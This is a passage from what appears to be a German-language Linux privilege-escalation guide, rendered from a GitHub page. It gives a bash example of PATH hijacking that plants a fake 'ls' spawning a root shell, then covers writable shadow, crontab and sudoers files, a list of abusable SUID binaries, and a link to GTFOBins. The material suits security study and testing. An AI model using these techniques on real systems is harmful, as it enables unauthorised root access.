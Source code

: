 ```bash
# Angreifer erstellt eine bösartige 'ls'-Datei
echo "/bin/bash -p" > /tmp/ls
chmod +x /tmp/ls

# Angreifer manipuliert die PATH-Variable
export PATH=/tmp:$PATH

# Das verwundbare Skript, das 'ls' als Root aufruft, führt nun unseren Code aus.
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

### Schwache Dateiberechtigungen
Wenn wichtige Systemdateien die falschen Berechtigungen haben, kann das zu einem direkten Root-Zugriff führen.

- `passwd` und `shadow`: Wenn `etc/shadow` für normale Benutzer beschreibbar ist, kann man einen neuen Benutzer mit Root-Rechten anlegen.

- `etc/crontab`: Wenn die Konfigurationsdatei für Cronjobs beschreibbar ist, kann man einen eigenen Root-Cronjob hinzufügen.

- `etc/sudoers`: Wenn diese Datei beschreibbar ist, kann man sich selbst sudo-Rechte ohne Passwort gewähren.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



### Bekannte gefährliche SUIDs:

```bash
/usr/bin/vim
/usr/bin/find
/usr/bin/nmap
/usr/bin/perl
/usr/bin/python
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### GTFOBins - SUID Missbrauch
**GTFOBins** ist eine hervorragende Ressource, um SUID-Binaries zu finden, die sich missbrauchen lassen: [https://gtfobins.github.io/](https://gtfobins.github.io/).
